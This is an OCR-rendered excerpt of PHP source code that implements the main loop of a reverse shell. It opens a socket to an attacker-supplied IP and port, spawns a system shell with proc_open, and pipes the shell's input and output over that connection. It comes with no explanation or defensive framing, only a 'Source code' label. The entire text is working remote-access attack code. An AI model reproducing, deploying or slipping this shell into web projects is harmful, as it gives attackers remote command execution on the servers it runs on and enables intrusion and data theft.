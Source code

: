    ```php
   // Open reverse connection
   $sock = fsockopen($ip, $port, $errno, $errstr, 30);
   if (!$sock) {
   	printit("$errstr ($errno)");
   	exit(1);
   }
   
   $descriptorspec = array(
      0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
      1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
      2 => array("pipe", "w")   // stderr is a pipe that the child will write to
   );
   
   $process = proc_open($shell, $descriptorspec, $pipes);
   
   if (!is_resource($process)) {
   	printit("ERROR: Can't spawn shell");
   	exit(1);
   }
   
   stream_set_blocking($pipes[0], 0);
   stream_set_blocking($pipes[1], 0);
   stream_set_blocking($pipes[2], 0);
   stream_set_blocking($sock, 0);
   
   printit("Successfully opened reverse shell to $ip:$port");
   
   while (1) {
   	if (feof($sock)) {
   		printit("ERROR: Shell connection terminated");
   		break;
   	}
   
   	if (feof($pipes[1])) {
   		printit("ERROR: Shell process terminated");
   		break;
   	}
   
   	$read_a = array($sock, $pipes[1], $pipes[2]);
   	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
   
   	if (in_array($sock, $read_a)) {
   		if ($debug) printit("SOCK READ");
   		$input = fread($sock, $chunk_size);
   		if ($debug) printit("SOCK: $input");
   		fwrite($pipes[0], $input);
   	}
   
   	if (in_array($pipes[1], $read_a)) {
   		if ($debug) printit("STDOUT READ");
   		$input = fread($pipes[1], $chunk_size);
   		if ($debug) printit("STDOUT: $input");
   		fwrite($sock, $input);
   	}
   
   	if (in_array($pipes[2], $read_a)) {
   		if ($debug) printit("STDERR READ");
   		$input = fread($pipes[2], $chunk_size);
   		if ($debug) printit("STDERR: $input");
   		fwrite($sock, $input);
   	}
   }
   
   ```